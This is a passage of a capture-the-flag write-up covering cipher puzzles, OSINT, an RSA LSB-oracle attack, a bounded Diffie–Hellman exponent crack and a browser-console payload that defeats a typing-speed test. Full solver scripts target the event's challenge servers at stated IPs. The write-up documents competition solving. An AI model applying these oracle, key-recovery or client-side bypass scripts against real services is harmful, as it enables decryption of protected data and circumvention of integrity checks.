1, 5, 7, 4, 6, 2, 8, 9, 3
```

After arranging the columns, I read the five rows horizontally and reversed direction on every row: left-to-right, then right-to-left. This is a boustrophedon transposition.

#### Reproducible decoder

Then I ask ChatGPT to make a script:

```python
ciphertext = "3T3415041}IHKUX84UBN1_NLR{BK_G0TT4U1NNCXR__NX"
columns = [ciphertext[i:i + 5] for i in range(0, len(ciphertext), 5)]

order = [0, 4, 6, 3, 5, 1, 7, 8, 2]

plaintext = []
for row in range(5):
    current = order if row % 2 == 0 else order[::-1]
    plaintext.extend(columns[column][row] for column in current)

print("".join(plaintext).rstrip("X"))
```

Output:

```text
3108{51RIH_N0B4T_T3NTUK4N_KUNC1_B4L41RUNG}
```

I removed the final three `X` characters because they only padded the rectangular grid.

#### Flag

```text
3108{51RIH_N0B4T_T3NTUK4N_KUNC1_B4L41RUNG}
```

---

## 2. Surat Pertabalan



### Challenge overview

The challenge description explicitly mentioned “Kehadapan Vigenere” and gave me the eight-letter key:

```text
KERAJAAN
```

I extracted the archive with the password `infected` and inspected the macro-enabled document statically.

#### Extracting the hidden data

A DOCM file is an OOXML ZIP container with an embedded VBA project. I inspected the document contents and macros, then joined the ciphertext fragments into:

```text
ZEEJR_PAATM_SEAKIOKV
```

The VBA code also contained:

```vb
Secret = "3108"
```

Which is I believe is the flag format.


#### Vigenère decryption

Just use cyberchef with the given key:



Output:

```text
PANJI_PANJI_BERKIBAR
```

Then use the flag format given earlier.

#### Flag

```text
3108{PANJI_PANJI_BERKIBAR}
```

---

## 3. Warkah Tergulung



### Challenge overview

The service described a royal letter protected by two RSA layers that shared the same secret 256-bit prefix.

The banner defined the layers as:

```text
c1 = PREFIX^e1 mod n1
c2 = (PREFIX * 2^L + FLAG)^e2 mod n2
```

The important parameters were:

```text
PREFIX size = 256 bits
e1          = 65537
e2          = 3
L           = 1024
LSB quota   = 3000 queries
```

The service also exposed an oracle command:

```text
lsb <ciphertext>
```

It decrypted the supplied first-layer ciphertext and returned the plaintext's least significant bit.

The attack therefore had two stages:

```text
RSA LSB oracle
  -> recover the shared 256-bit PREFIX
  -> substitute the prefix into the second RSA message
  -> exploit e2 = 3 and the short unknown suffix
  -> recover the flag with an exact integer cube root
```

#### Recovering the prefix with the LSB oracle

RSA is multiplicatively malleable. Multiplying a ciphertext by `2^e mod n` causes the decrypted plaintext to be doubled modulo `n`:

```text
c' = c * 2^e mod n
m' = 2m mod n
```

The parity of `m'` reveals whether doubling crossed the modulus. Repeating this process halves the possible plaintext interval after every query.

A normal parity-oracle attack against the 1024-bit `n1` would take about 1024 queries. In this challenge, I already knew:

```text
0 <= PREFIX < 2^256
```

For the early doublings where `2^i * PREFIX < n1`, no modular wrap could occur and the oracle result was guaranteed to be zero. I skipped roughly 767 predictable queries and began querying only when the narrowed interval approached the 256-bit prefix range.

I maintained the bounds as exact fractions to avoid floating-point rounding. Once the interval converged, I checked nearby integers against the original ciphertext:

```python
pow(candidate, e1, n1) == c1
```

This verification removed any off-by-one ambiguity and gave me the exact `PREFIX` in about 257 real oracle calls.

#### Removing the second RSA layer

For the second ciphertext, the plaintext was:

```text
M = PREFIX * 2^1024 + FLAG
```

After recovering `PREFIX`, I knew the large high-order portion:

```python
A = PREFIX << 1024
M = A + FLAG
```

Since `e2 = 3`:

```text
c2 = (A + FLAG)^3 mod n2
```

The general known-prefix solution would be a univariate Coppersmith attack on:

```text
f(x) = (A + x)^3 - c2 mod n2
```

However, the flag was short enough that a simpler exact-cube shortcut worked. The change between `(A + FLAG)^3` and `A^3` was small compared with the 3072-bit modulus. I calculated:

```python
delta = (c2 - pow(A, 3, n2)) % n2
```

Then I searched a small number of possible modulus wraps for an exact cube:

```python
target = A**3 + delta + t*n2
message = integer_cube_root(target)
flag = message - A
```

When `message^3 == target`, the recovered suffix was the flag. This avoided needing Sage for the Coppersmith stage.

#### Solver

This the magic by ChatGPT:

```python
#!/usr/bin/env python3
import re
import socket
import time
from fractions import Fraction

HOST = "167.99.71.153"
PORT = 31117

def receive_banner(sock):
    data = bytearray()
    sock.settimeout(1.5)

    try:
        data += sock.recv(65536)
    except socket.timeout:
        return bytes(data)

    sock.settimeout(0.2)
    while True:
        try:
            chunk = sock.recv(65536)
            if not chunk:
                break
            data += chunk
        except socket.timeout:
            break

    return bytes(data)

def parse_hex(name, banner):
    match = re.search(
        rb"(?m)^\s*" + name.encode() + rb"\s*=\s*0x([0-9a-fA-F]+)\s*$",
        banner,
    )
    if not match:
        raise RuntimeError(f"Could not parse {name}")
    return int(match.group(1), 16)

def parse_int(name, banner):
    match = re.search(
        rb"(?m)^\s*" + name.encode() + rb"\s*=\s*(\d+)\s*$",
        banner,
    )
    if not match:
        raise RuntimeError(f"Could not parse {name}")
    return int(match.group(1))

def query_lsb(sock, ciphertext):
    sock.sendall(f"lsb {ciphertext:x}\n".encode())
    data = bytearray()
    deadline = time.time() + 2

    while time.time() < deadline:
        sock.settimeout(max(0.05, deadline - time.time()))
        chunk = sock.recv(4096)
        if not chunk:
            raise EOFError("The service closed the connection")
        data += chunk

        match = re.search(
            rb"(?i)(?:lsb|bit\s+rendah|rendah)[^\r\n]*"
            rb"(?:=|:|->)\s*([01])\b",
            data,
        )
        if match:
            return int(match.group(1))

    raise RuntimeError(f"Could not parse oracle response: {bytes(data)!r}")

def recover_prefix(sock, n, e, ciphertext, prefix_bits=256):
    bound = 1 << prefix_bits
    encrypted_two = pow(2, e, n)

    skip = 0
    while ((bound - 1) << (skip + 1)) < n:
        skip += 1

    low = Fraction(0, 1)
    high = Fraction(n, 1 << skip)
    current = ciphertext * pow(encrypted_two, skip, n) % n

    print(f"[+] Skipping {skip} guaranteed-zero oracle steps")

    queries = 0
    while high - low > Fraction(1, 8):
        current = current * encrypted_two % n
        bit = query_lsb(sock, current)
        queries += 1

        middle = (low + high) / 2
        if bit == 0:
            high = middle
        else:
            low = middle

        if queries % 32 == 0:
            print(f"[+] Oracle queries: {queries}")

    candidates = {int(low), int(high), int((low + high) / 2)}

    for base in candidates:
        for difference in range(-16, 17):
            candidate = base + difference
            if 0 <= candidate < bound and pow(candidate, e, n) == ciphertext:
                print(f"[+] PREFIX recovered after {queries} real queries")
                return candidate

    raise RuntimeError("PREFIX verification failed")

def integer_cube_root(value):
    if value < 2:
        return value

    root = 1 << ((value.bit_length() + 2) // 3)

    while True:
        updated = (2 * root + value // (root * root)) // 3
        if updated >= root:
            while (root + 1) ** 3 <= value:
                root += 1
            while root**3 > value:
                root -= 1
            return root
        root = updated

def recover_flag(prefix, n2, c2, shift):
    known = prefix << shift
    delta = (c2 - pow(known, 3, n2)) % n2
    base = known**3 + delta

    for wraps in range(4097):
        target = base + wraps * n2
        message = integer_cube_root(target)

        if message**3 != target:
            continue
        if not known <= message < known + (1 << shift):
            continue

        flag_integer = message - known
        length = max(1, (flag_integer.bit_length() + 7) // 8)
        return flag_integer.to_bytes(length, "big"), wraps

    raise RuntimeError("Exact-cube shortcut failed")

with socket.create_connection((HOST, PORT), timeout=5) as sock:
    banner = receive_banner(sock)
    print(banner.decode(errors="replace"))

    n1 = parse_hex("n1", banner)
    e1 = parse_int("e1", banner)
    c1 = parse_hex("c1", banner)
    n2 = parse_hex("n2", banner)
    e2 = parse_int("e2", banner)
    c2 = parse_hex("c2", banner)
    shift = parse_int("L", banner)

    if e2 != 3:
        raise RuntimeError(f"Unexpected second exponent: {e2}")

    prefix = recover_prefix(sock, n1, e1, c1)
    print(f"[+] PREFIX = 0x{prefix:064x}")

    flag, wraps = recover_flag(prefix, n2, c2, shift)
    print(f"[+] Cube-wrap multiplier: {wraps}")
    print(f"[+] FLAG = {flag.decode()}")
```

The recovered plaintext was already in the event's flag format.

#### Flag

```text
3108{tr3ngg4nu_rsa_c0pp3rsm1th_b78adbeab693fe07a8e01a8e34eea5de}
```

---

## 4. Surat Pahlawan




### Challenge overview

The challenge described a secret royal message protected with Diffie–Hellman key exchange. Instead of providing a file, it exposed two HTTP endpoints:

```text
GET  http://168.144.106.166:30003/intercept
POST http://168.144.106.166:30003/verify
```

The description also disclosed two suspicious limits:

```text
private exponent <= 14,000,605
IV value between 1 and 5,000
```

A normal Diffie–Hellman private exponent is far too large to brute-force. Here, the first limit reduced the discrete-log search space to only about fourteen million possibilities. The `/intercept` response already supplied the full IV in the live version, so I did not need to brute-force the second range.

The intended chain was:

```text
intercept DH public values
  -> recover a bounded private exponent
  -> calculate the shared secret
  -> derive the AES key
  -> decrypt the secret phrase
  -> submit it within the same session
  -> decode the returned encrypted ZIP
```

#### Inspecting the intercepted message

I first requested a sample:

```bash
curl -s http://168.144.106.166:30003/intercept | jq
```

The response contained the modulus `p`, generator `g`, public values `A` and `B`, an AES-CBC ciphertext and its IV. The Diffie–Hellman public values followed the usual form:

```text
A = g^a mod p
B = g^b mod p
```

Recovering either `a` or `b` would be enough. If I recovered `a`, for example, I could reconstruct the shared secret with:

```text
s = B^a mod p
```

Trying every possible exponent would work, but baby-step giant-step reduced the work from approximately 14 million modular exponentiations to around the square root of that value. Only about 3,742 baby steps and 3,742 giant steps were needed.

#### Handling the rotating session

My first manual test recovered a valid private exponent and decrypted this phrase:

```text
Perahu_Jong_Melaka
```

However, submitting it later failed. After a few minutes of checking the arithmetic, I realized the cryptography was correct and the service was rotating its challenge state. Every request to `/intercept` created a fresh short-lived session with a different secret phrase.

I therefore combined interception, cracking, decryption and verification in one script. A `requests.Session` preserved the session cookie and the script submitted the plaintext immediately after recovering it.

#### Automated solver

Asked ChatGPT for magic:

```python
#!/usr/bin/env python3
import hashlib
import math

import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

BASE = "http://168.144.106.166:30003"
LIMIT = 14_000_605

def bounded_bsgs(g, h, modulus, limit):
    """Find x <= limit such that g**x == h (mod modulus)."""
    step = math.isqrt(limit) + 1

    baby_steps = {}
    value = 1
    for j in range(step):
        baby_steps.setdefault(value, j)
        value = value * g % modulus

    giant_step = pow(g, step, modulus)
    inverse_step = pow(giant_step, -1, modulus)

    value = h
    for i in range(step + 1):
        if value in baby_steps:
            candidate = i * step + baby_steps[value]
            if candidate <= limit:
                return candidate
        value = value * inverse_step % modulus

    return None

session = requests.Session()

intercept = session.get(BASE + "/intercept", timeout=5)
intercept.raise_for_status()
data = intercept.json()

p = int(data["p"], 16)
g = int(data["g"], 16)
A = int(data["A"], 16)
B = int(data["B"], 16)
iv = bytes.fromhex(data["iv"])
ciphertext = bytes.fromhex(data["encrypted_payload"])

print("[*] Recovering a bounded private exponent")
private = bounded_bsgs(g, A, p, LIMIT)

if private is not None:
    shared = pow(B, private, p)
else:
    private = bounded_bsgs(g, B, p, LIMIT)
    if private is None:
        raise SystemExit("No bounded exponent found")
    shared = pow(A, private, p)

print(f"[+] Private exponent: {private}")
print(f"[+] Shared secret: {shared}")

# Challenge KDF: first 16 raw bytes of SHA-1(decimal shared secret)
key = hashlib.sha1(str(shared).encode()).digest()[:16]
plaintext = unpad(
    AES.new(key, AES.MODE_CBC, iv).decrypt(ciphertext),
    AES.block_size,
).decode()

print(f"[+] Secret phrase: {plaintext}")

verification = session.post(
    BASE + "/verify",
    json={"secret_phrase": plaintext},
    timeout=5,
)
verification.raise_for_status()

print(verification.text)
```

The important key-derivation detail was:

```python
hashlib.sha1(str(shared).encode()).digest()[:16]
```

This hashes the decimal text representation of the shared secret and takes the first 16 raw bytes as an AES-128 key. The intercepted payload then decrypts with AES-CBC and PKCS#7 padding.

#### Extracting the final archive

The successful `/verify` response returned a Base64-encoded, password-protected ZIP archive rather than printing the flag directly. It also provided the password:

```text
Kunci_Rahsia_Bendahara
```

I copied the Base64 value into `archive.b64`, decoded it and inspected the archive:

```bash
base64 -d archive.b64 > chall.zip
7z l chall.zip
7z x -p'Kunci_Rahsia_Bendahara' chall.zip
cat final_flag.txt
```

The archive used WinZip AES-256 encryption and contained one file named `final_flag.txt`. Extracting it with the supplied password revealed the final flag.

#### Flag

```text
3108{S4nd1_B3nd4h4r4_Cr4cked_Time_Attack_Master}
```

---

---

# MISC

---

## 1. Cap Mohor Sembilan Mata



### Challenge overview

I received a 6×6 letter grid and a royal seal with nine openings. I treated the seal as a turning grille placed over the grid.

The inscription told me to:

1. determine the year in which the first Melaka ruler to use the title **Sultan** ascended the throne;
2. take the third digit of that year as the number of initial clockwise rotations.

After every reading, the seal had to be rotated again. Letters visible through the openings were read from left to right and top to bottom.

#### Finding the initial rotation

The ruler was Sultan Muhammad Shah, whose accession year for this puzzle was:

```text
1424
```

The third digit is `2`, so I rotated the seal clockwise twice, or 180 degrees, before reading it.

#### Reading the grille

Starting at 180 degrees, I read through the openings from left to right and top to bottom. I then rotated another 90 degrees after every pass:

| Orientation | Visible text |
| -----------:| ------------ |
| 180°        | `MOHORDIRA`  |
| 270°        | `JAMELAKAB`  |
| 0°          | `ERMATASEM`  |
| 90°         | `BILANEMAS`  |

Joining the fragments gave me:

```text
MOHORDIRAJAMELAKABERMATASEMBILANEMAS
```

After adding word boundaries, the message was:

```text
MOHOR DIRAJA MELAKA BERMATA SEMBILAN EMAS
```

#### Flag

```text
3108{MOHOR_DIRAJA_MELAKA_BERMATA_SEMBILAN_EMAS}
```

---

## 2. Persemadian Seorang Raja



### Challenge overview

The challenge described a royal tomb that survived the destruction of Melaka after the Portuguese conquest in 1511. According to the clues, it was the only known tomb of a Melaka sultan that still existed in Malaysia. This is deadass just another OSINT but somehow is in misc category.


#### Extracting the historical clues

I separated the description into details that could be searched independently:

- the ruler governed Melaka for eleven years;
- he died at around 30 years old;
- his father ruled while the Melaka Sultanate was at its territorial height;
- his son was the sultan who lost Melaka to the Portuguese in 1511;
- he was buried on the site of his own palace;
- the village name referred to the presence of royalty;
- his tombstone was brought from Aceh; and
- a mosque beside the tomb was named after him.

The strongest relationship was the line connecting three generations. I searched for the father of the final ruler of Melaka and the sultan who reigned immediately before him:

```text
Sultan Melaka ruled 1477 1488 eleven years
father Sultan Mansur Shah son Sultan Mahmud Shah
only surviving tomb Sultan Melaka Malaysia
```

This identified **Sultan Alauddin Riayat Shah**, the seventh Sultan of Melaka. He reigned from 1477 until 1488, succeeding his father Sultan Mansur Shah. His son and successor was Sultan Mahmud Shah, who later lost Melaka in 1511.

#### Locating the tomb

With the Sultan identified, I searched directly for his burial place:

```text
makam Sultan Alauddin Riayat Shah Malaysia
makam Sultan Melaka Kampung Raja
Masjid Sultan Alauddin Riayat Shah makam
```

The results led to **Kampung Raja, Pagoh**. The tomb is located beside a mosque carrying the Sultan's name.

I verified the location using the Malaysian mosque-information portal's entry for [Masjid Sultan Alaudin Riayat Shah](https://masjid.islam.gov.my/maklumatDetailMS/1/0106066). The official address is:

```text
Kampung Raja
84600 Pagoh
Muar
Johor
```

This matched the clue about a village whose name acknowledged the presence of a ruler. It also fixed the last three components required by the flag.

#### Resolving Pagoh and Jorak

Some sources associate Kampung Raja with the wider Jorak administrative area, while most descriptions of the tomb use Pagoh as the locality. I initially considered both forms:

```text
ALAUDDINRIAYATSHAH_JORAK_MUAR_JOHOR
ALAUDDINRIAYATSHAH_PAGOH_MUAR_JOHOR
```

The challenge accepted `PAGOH`, which also matches the postcode address in the official mosque record.

#### Formatting the flag

I removed spaces and the title `Sultan` from the ruler's name, converted it to uppercase and joined it with the location components:

```text
ALAUDDINRIAYATSHAH
PAGOH
MUAR
JOHOR
```

#### Flag

```text
3108{ALAUDDINRIAYATSHAH_PAGOH_MUAR_JOHOR}
```

---

## 3. Titah Laju 1



### Challenge overview

This challenge presented a typing-speed test based on historical royal proclamations. Each stage displayed a sentence that had to be typed quickly enough to meet the required WPM. Completing every stage revealed the flag.

I initially tried typing the sentences normally, but the speed requirement made that approach unreliable. Since the challenge ran in the browser, I inspected how the page handled the input and timer instead.

#### Understanding the timing check

The timer only started after the first character was entered. The page then watched the input field and compared its value with the displayed proclamation.

This meant I did not need to simulate every individual keystroke. I could enter one character to start the timer, wait a few milliseconds and replace the input value with the complete sentence. As long as I dispatched the expected browser events, the page treated the injected text as valid input and calculated an extremely high typing speed.

The script needed to perform four tasks:

1. locate the visible text input;
2. find the proclamation displayed nearest to that input;
3. inject the first character followed by the complete sentence; and
4. continue through every stage until the flag appeared.

#### Browser-console payload

Thennn I use this payload by GPT:

```javascript
(async () => {
  const sleep = ms => new Promise(r => setTimeout(r, ms));
  const FLAG = /3108\{[^}\n]+\}/;

  const visible = el => {
    if (!el) return false;
    const s = getComputedStyle(el);
    const r = el.getBoundingClientRect();
    return s.display !== "none" &&
           s.visibility !== "hidden" &&
           r.width > 0 && r.height > 0;
  };

  const text = el =>
    (el?.innerText || el?.textContent || "")
      .replace(/\s+/g, " ")
      .trim();

  const setValue = (el, value) => {
    const proto = el instanceof HTMLTextAreaElement
      ? HTMLTextAreaElement.prototype
      : HTMLInputElement.prototype;

    Object.getOwnPropertyDescriptor(proto, "value")
      .set.call(el, value);

    el.dispatchEvent(new Event("input", {
      bubbles: true
    }));
  };

  function getTarget(input) {
    const ir = input.getBoundingClientRect();

    const ignore =
      /taipkan titah|cabaran istana|tahap|sasaran|mula menaip|rujukan rasmi|tahniah|flag anda|salin flag|mula semula/i;

    const candidates = [
      ...document.querySelectorAll(
        "[data-target],[data-text],.titah,.target,.quote,.prompt,.challenge-text,.text-to-type,blockquote,pre,p,div,span"
      )
    ]
      .filter(el =>
        visible(el) &&
        !el.contains(input) &&
        !el.querySelector("input,textarea,button")
      )
      .map(el => {
        const t =
          el.dataset?.target ||
          el.dataset?.text ||
          text(el);

        const r = el.getBoundingClientRect();

        const gap =
          r.bottom <= ir.top
            ? ir.top - r.bottom
            : 10000;

        return {
          el,
          t: t.trim(),
          gap
        };
      })
      .filter(x =>
        x.t.length >= 15 &&
        x.t.length < 2500 &&
        !ignore.test(x.t)
      )
      .sort((a, b) => a.gap - b.gap);

    return candidates[0]?.t;
  }

  console.log("[+] Titah auto-solver started");

  for (let stage = 0; stage < 50; stage++) {
    let flag =
      (document.body.innerText.match(FLAG) || [])[0];

    if (flag) {
      console.log("%cFLAG = " + flag,
        "font-size:20px;font-weight:bold");

      try {
        await navigator.clipboard.writeText(flag);
      } catch {}

      alert(flag);
      return;
    }

    const input = [
      ...document.querySelectorAll(
        'textarea,input[type="text"],input:not([type])'
      )
    ].find(visible);

    if (!input) {
      const reset = [...document.querySelectorAll("button")]
        .find(x =>
          visible(x) &&
          /mula semula|cuba lagi/i.test(text(x))
        );

      if (reset) reset.click();

      await sleep(300);
      continue;
    }

    const target = getTarget(input);

    if (!target) {
      console.log("[-] Tak jumpa titah");
      await sleep(300);
      continue;
    }

    console.log(`[+] Stage ${stage + 1}`);
    console.log(target);

    input.focus();

    // Start the timer with the first character.
    setValue(input, target[0]);

    // Complete the sentence almost immediately.
    await sleep(5);
    setValue(input, target);

    input.dispatchEvent(
      new Event("change", { bubbles: true })
    );

    input.dispatchEvent(
      new KeyboardEvent("keydown", {
        key: "Enter",
        code: "Enter",
        bubbles: true
      })
    );

    await sleep(400);

    const next = [...document.querySelectorAll("button")]
      .find(x =>
        visible(x) &&
        /seterusnya|teruskan|next|hantar/i.test(text(x))
      );

    if (next) {
      next.click();
      await sleep(300);
    }
  }

  const flag =
    (document.body.innerText.match(FLAG) || [])[0];

  console.log(flag ? "[+] " + flag : "[-] Flag belum keluar");
})();
```

Disclaimer: This payload needs to run 2-3 times to fully solve lol


#### Flag

```text
3108{ed3a3ed658d3ad5e3bb8798b1a7dfdf3}
```

---

---

# FORENSICS

---

## 1. Cap Mohor Yang Hilang



### Challenge overview

The archive contained:

```text
arkib_mohor.img  8,388,608 bytes
rakaman.wav        224,044 bytes
```

I needed to recover a three-part verification number:

- **A:** visible on a repaired royal-seal image;
- **B:** recovered from a deleted audio recording; and
- **C:** stored in a password-protected container using A as its password.

The final format was:

```text
3108{A_B_C}
```

#### Part A: repairing the seal image

